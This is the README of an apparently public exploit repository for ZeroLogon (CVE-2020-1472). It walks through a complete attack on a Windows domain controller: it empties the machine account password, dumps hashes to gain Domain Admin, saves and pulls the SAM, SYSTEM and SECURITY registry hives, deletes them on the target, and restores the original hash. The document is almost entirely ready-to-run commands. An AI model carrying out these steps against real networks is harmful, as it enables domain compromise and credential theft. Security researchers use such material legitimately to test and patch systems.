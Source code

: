 # ZeroLogon exploitation script

Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc.

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer. Then, do:

```
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

If that's successful you will then be able to:
```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```
which should get you Domain Admin. After you have that, wmiexec.py to the target DC with a credential from the secretsdump and do
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

Then you can
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by
```
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

Reinstalling the original hash is necessary for the DC to continue to operate normally.
